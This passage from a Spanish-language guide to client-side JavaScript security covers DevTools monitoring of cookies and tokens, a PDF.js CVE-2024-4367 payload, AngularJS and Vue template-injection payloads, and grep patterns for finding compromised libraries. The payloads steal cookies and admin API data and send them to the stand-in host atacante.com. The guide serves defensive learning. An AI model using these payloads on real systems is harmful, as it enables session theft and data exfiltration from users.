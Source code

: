 #### Live Expressions para Monitoreo

```javascript
// En Console, click en ojo para crear Live Expression
document.cookie           // Monitorear cookies en tiempo real
localStorage.auth_token   // Observar cambios de tokens
window.currentUser        // Seguir estado de usuario
```

## Explotación de Vulnerabilidades Modernas

### PDF.js Arbitrary Code Execution (CVE-2024-4367)

Esta vulnerabilidad crítica permite ejecución arbitraria de JavaScript en contexto PDF.js:[^17]

```javascript
// Payload de explotación en PDF malicioso
<< 
/OpenAction << 
  /Type /Action 
  /S /JavaScript 
  /JS (
    var img = new Image();
    img.src = "https://atacante.com/steal?cookie=" + document.cookie;
    fetch('/api/admin/users').then(r => r.json()).then(data => {
      fetch('https://atacante.com/exfil', {
        method: 'POST', 
        body: JSON.stringify(data)
      });
    });
  )
>>
>>
```

### Client-Side Template Injection (CSTI)

Frameworks como Angular, Vue.js son vulnerables a inyección de templates:[^2]

```javascript
// AngularJS payload
{{constructor.constructor('fetch("/api/admin").then(r=>r.json()).then(d=>fetch("https://atacante.com",{method:"POST",body:JSON.stringify(d)}))')()}}
// Vue.js payload  
{{_createElementBlock.constructor("location.href='https://atacante.com?cookie='+document.cookie")()}}
```

### Supply Chain Attacks en JavaScript

Los ataques de cadena de suministro son cada vez más sofisticados:[^3]

```javascript
// Detección de librerías comprometidas
// Buscar en archivos JS descargados:
grep -r "data:text/html" *.js  // Payloads en data URIs
grep -r "eval\|Function\|setTimeout.*string" *.js  // Ejecución dinámica
grep -r "//.*cdn\..*\.tk\|//.*\.tk/" *.js  // CDNs sospechosos
```


[^1]: [https://gitnation.com/contents/the-state-of-javascript-security-in-2024](https://gitnation.com/contents/the-state-of-javascript-security-in-2024)
[^2]: [https://jscrambler.com/blog/the-most-effective-way-to-protect-client-side-javascript-applications](https://jscrambler.com/blog/the-most-effective-way-to-protect-client-side-javascript-applications)
[^3]: [https://www.humansecurity.com/learn/blog/client-side-battle-against-javascript-attacks/](https://www.humansecurity.com/learn/blog/client-side-battle-against-javascript-attacks/)
[^4]: [https://www.freecodecamp.org/news/how-to-secure-javascript-applications/](https://www.freecodecamp.org/news/how-to-secure-javascript-applications/)
[^5]: [https://www.contrastsecurity.com/developer/learn/client-side-injection](https://www.contrastsecurity.com/developer/learn/client-side-injection)
[^6]: [https://systemweakness.com/finding-endpoints-and-secrets-in-javascript-files-for-web-application-security-846462fd2a69](https://systemweakness.com/finding-endpoints-and-secrets-in-javascript-files-for-web-application-security-846462fd2a69)
[^7]: [https://www.geeksforgeeks.org/linux-unix/linkfinder-script-to-search-endpoints-in-javascript-files/](https://www.geeksforgeeks.org/linux-unix/linkfinder-script-to-search-endpoints-in-javascript-files/)
[^8]: [https://github.com/channyein1337/jsleak](https://github.com/channyein1337/jsleak)
[^9]: [https://offsec.tools/tool/jsleak](https://offsec.tools/tool/jsleak)
[^10]: [https://github.com/0xAb1d/JSLeakRecon](https://github.com/0xAb1d/JSLeakRecon)
[^11]: [https://www.wiz.io/blog/nuclei-signature-verification-bypass](https://www.wiz.io/blog/nuclei-signature-verification-bypass)
[^12]: https://orca.security/resources/blog/using-nuclei-templates-for-vulnerability-scanning/
[^13]: [https://www.pbrumby.com/2024/12/27/using-chrome-local-overrides-to-maintain-changes-after-refreshing-the-browser/](https://www.pbrumby.com/2024/12/27/using-chrome-local-overrides-to-maintain-changes-after-refreshing-the-browser/)
[^14]: [https://www.debugbear.com/blog/devtools-local-overrides](https://www.debugbear.com/blog/devtools-local-overrides)
[^15]: [https://www.trysmudford.com/blog/chrome-local-overrides/](https://www.trysmudford.com/blog/chrome-local-overrides/)
[^16]: [https://www.wiz.io/vulnerability-database/cve/cve-2024-4367](https://www.wiz.io/vulnerability-database/cve/cve-2024-4367)
[^17]: [https://writeups.io/summaries/detailed-technical-analysis-of-cve-2024-4367-arbitrary-js-execution-in-pdfjs/](https://writeups.io/summaries/detailed-technical-analysis-of-cve-2024-4367-arbitrary-js-execution-in-pdfjs/)
[^18]: [https://www.geeksforgeeks.org/blogs/top-common-frontend-security-attacks/](https://www.geeksforgeeks.org/blogs/top-common-frontend-security-attacks/)
[^19]: [https://www.reflectiz.com/blog/javascript-security-2023/](https://www.reflectiz.com/blog/javascript-security-2023/)
[^20]: [https://dev.to/chaudharidevam/7-frontend-security-vulnerabilities-you-should-know-and-fix-22hi](https://dev.to/chaudharidevam/7-frontend-security-vulnerabilities-you-should-know-and-fix-22hi)
[^21]: [https://snyk.io/articles/javascript-security/](https://snyk.io/articles/javascript-security/)
[^22]: [https://www.ibm.com/docs/pt/SSB2MG_4.6.1/com.ibm.ips.doc/concepts/wap_client_side_attacks.htm](https://www.ibm.com/docs/pt/SSB2MG_4.6.1/com.ibm.ips.doc/concepts/wap_client_side_attacks.htm)
[^23]: [https://www.opswat.com/blog/comprehensive-analysis-of-cve-2024-6778-race-condition-vulnerability-in-chrome-devtools](https://www.opswat.com/blog/comprehensive-analysis-of-cve-2024-6778-race-condition-vulnerability-in-chrome-devtools)
[^24]: [https://blog.pixelfreestudio.com/learning-from-security-vulnerabilities-in-frontend-code/](https://blog.pixelfreestudio.com/learning-from-security-vulnerabilities-in-frontend-code/)
[^25]: [https://owasp.org/www-project-top-10-client-side-security-risks/](https://owasp.org/www-project-top-10-client-side-security-risks/)
[^26]: [https://dl.acm.org/doi/10.1145/3656394](https://dl.acm.org/doi/10.1145/3656394)
[^27]: [https://blog.bitsrc.io/top-7-common-frontend-security-attacks-2e2b56dc2bcc](https://blog.bitsrc.io/top-7-common-frontend-security-attacks-2e2b56dc2bcc)
[^28]: [https://www.geeksforgeeks.org/ethical-hacking/types-of-client-side-attacks/](https://www.geeksforgeeks.org/ethical-hacking/types-of-client-side-attacks/)
[^29]: [https://javascript.plainenglish.io/analysis-of-vulnerabilities-identified-in-javascript-between-2022-2025-f8553d010467](https://javascript.plainenglish.io/analysis-of-vulnerabilities-identified-in-javascript-between-2022-2025-f8553d010467)
[^30]: [https://www.recordedfuture.com/threat-intelligence-101/vulnerability-management-threat-hunting/front-end-security](https://www.recordedfuture.com/threat-intelligence-101/vulnerability-management-threat-hunting/front-end-security)
[^31]: [https://tryhoverify.com/blog/chrome-devtools-javascript-debugging-guide/](https://tryhoverify.com/blog/chrome-devtools-javascript-debugging-guide/)
[^32]: [https://bugbustersunited.com/unraveling-web-complexity-with-linkfinder/](https://bugbustersunited.com/unraveling-web-complexity-with-linkfinder/)
[^33]: [https://learn.microsoft.com/en-us/microsoft-edge/devtools/javascript/](https://learn.microsoft.com/en-us/microsoft-edge/devtools/javascript/)
[^34]: [https://developer.chrome.com/docs/devtools/javascript](https://developer.chrome.com/docs/devtools/javascript)
[^35]: [https://github.com/GerbenJavado/LinkFinder](https://github.com/GerbenJavado/LinkFinder)
[^36]: [https://www.linkedin.com/posts/shaikarifali_jsleak-is-a-tool-to-find-secret-paths-or-activity-7075840269396443136-UHRB](https://www.linkedin.com/posts/shaikarifali_jsleak-is-a-tool-to-find-secret-paths-or-activity-7075840269396443136-UHRB)
[^37]: [https://developer.chrome.com/docs/devtools/javascript/reference](https://developer.chrome.com/docs/devtools/javascript/reference)
[^38]: [https://www.yeswehack.com/learn-bug-bounty/discover-map-hidden-endpoints-parameters](https://www.yeswehack.com/learn-bug-bounty/discover-map-hidden-endpoints-parameters)
[^39]: [https://www.jit.io/resources/appsec-tools/the-developers-guide-to-using-gitleaks-to-detect-hardcoded-secrets](https://www.jit.io/resources/appsec-tools/the-developers-guide-to-using-gitleaks-to-detect-hardcoded-secrets)
[^40]: [https://developer.mozilla.org/en-US/docs/Learn_web_development/Core/Scripting/Debugging_JavaScript](https://developer.mozilla.org/en-US/docs/Learn_web_development/Core/Scripting/Debugging_JavaScript)
[^41]: [https://cybersectools.com/tools/linkfinder](https://cybersectools.com/tools/linkfinder)
[^42]: [https://gitleaks.io](https://gitleaks.io)
[^43]: [https://dev.to/hanzla-baig/debugging-javascript-like-a-pro-mastering-browser-devtools-nodejs-85g](https://dev.to/hanzla-baig/debugging-javascript-like-a-pro-mastering-browser-devtools-nodejs-85g)
[^44]: [https://infosecwriteups.com/js-link-finder-burp-suite-extension-guide-e4809a6da268](https://infosecwriteups.com/js-link-finder-burp-suite-extension-guide-e4809a6da268)
[^45]: [https://www.aikido.dev/blog/top-secret-scanning-tools](https://www.aikido.dev/blog/top-secret-scanning-tools)
[^46]: [https://www.qodo.ai/blog/best-static-code-analysis-tools/](https://www.qodo.ai/blog/best-static-code-analysis-tools/)
[^47]: [https://www.softwaretestingmagazine.com/tools/open-source-javascript-code-analysis/](https://www.softwaretestingmagazine.com/tools/open-source-javascript-code-analysis/)
[^48]: [https://armur.ai/blogs/posts/top_20_static_analysis_tools/](https://armur.ai/blogs/posts/top_20_static_analysis_tools/)
[^49]: [https://projectdiscovery.io/blog/nuclei-templates-v9-8-0-a-leap-forward-in-network-security-scanning](https://projectdiscovery.io/blog/nuclei-templates-v9-8-0-a-leap-forward-in-network-security-scanning)
[^50]: [https://developer.chrome.com/docs/devtools/overrides](https://developer.chrome.com/docs/devtools/overrides)
[^51]: [https://snappify.com/blog/code-analysis-tools](https://snappify.com/blog/code-analysis-tools)
[^52]: [https://github.com/projectdiscovery/nuclei-templates](https://github.com/projectdiscovery/nuclei-templates)
[^53]: [https://learn.microsoft.com/en-us/microsoft-edge/devtools/javascript/overrides](https://learn.microsoft.com/en-us/microsoft-edge/devtools/javascript/overrides)
[^54]: [https://spectralops.io/blog/top-10-static-application-security-testing-sast-tools-in-2025/](https://spectralops.io/blog/top-10-static-application-security-testing-sast-tools-in-2025/)
[^55]: [https://github.com/projectdiscovery/nuclei-templates/releases](https://github.com/projectdiscovery/nuclei-templates/releases)
[^56]: [https://javascript.plainenglish.io/chromes-best-debugging-feature-301de685a616](https://javascript.plainenglish.io/chromes-best-debugging-feature-301de685a616)
[^57]: [https://daily.dev/es/blog/6-best-elixir-static-analysis-tools-2024](https://daily.dev/es/blog/6-best-elixir-static-analysis-tools-2024)
[^58]: [https://projectdiscovery.io/blog/nuclei-templates-monthly-may-2025](https://projectdiscovery.io/blog/nuclei-templates-monthly-may-2025)
[^59]: [https://www.youtube.com/watch?v=PT6xsr_AUQ0](https://www.youtube.com/watch?v=PT6xsr_AUQ0)
[^60]: [https://www.reddit.com/r/devops/comments/1fd2twc/what_are_the_best_static_analysis_tools_for/](https://www.reddit.com/r/devops/comments/1fd2twc/what_are_the_best_static_analysis_tools_for/)